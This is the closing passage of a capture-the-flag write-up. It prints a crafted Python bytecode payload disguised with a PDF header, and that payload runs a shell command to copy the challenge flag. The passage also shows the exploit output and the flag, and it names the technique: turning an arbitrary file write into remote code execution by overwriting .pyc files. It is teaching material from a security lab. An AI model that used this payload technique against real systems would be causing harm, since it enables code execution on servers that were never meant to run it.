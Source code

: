 ```shell
b"\xa7\r\r\n\x00\x00\x00\x00Y\xe5\x11h\x84\x00\x00\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\xf3B\x00\x00\x00\x97\x00\x02\x00e\x00d\x00\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x01\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x02S\x00)\x03\xda\x02osz'sh -c /readflag > /app/uploads/flag.txtN)\x02\xda\n__import__\xda\x06system\xa9\x00\xf3\x00\x00\x00\x00\xfa\r/app/utils.py\xfa\x08<module>r\x08\x00\x00\x00\x01\x00\x00\x00s*\x00\x00\x00\xf0\x03\x01\x01\x01\xd8\x00\n\x80\n\x884\xd1\x00\x10\xd4\x00\x10\xd7\x00\x17\xd2\x00\x17\xd0\x18A\xd1\x00B\xd4\x00B\xd0\x00B\xd0\x00B\xd0\x00Br\x06\x00\x00\x00%PDF-"
[*] Overwriting the original bytecode file with our own RCE payload...
[*] Executing the overwritten bytecode file...
[+] Flag: PUCTF25{wheN_bY7eCodE_Bi7e5_B4CK_8c531a651dd37d09b4b70dd619374a7b}
```

- Flag: **`PUCTF25{wheN_bY7eCodE_Bi7e5_B4CK_8c531a651dd37d09b4b70dd619374a7b}`**

> Note: There is another unintended solution. For more on that, feel free to read [my research](https://siunam321.github.io/research/python-dirty-arbitrary-file-write-to-rce-via-writing-shared-object-files-or-overwriting-bytecode-files/).

## Conclusion

What we've learned:

1. Python dirty arbitrary file write to RCE via overwriting bytecode files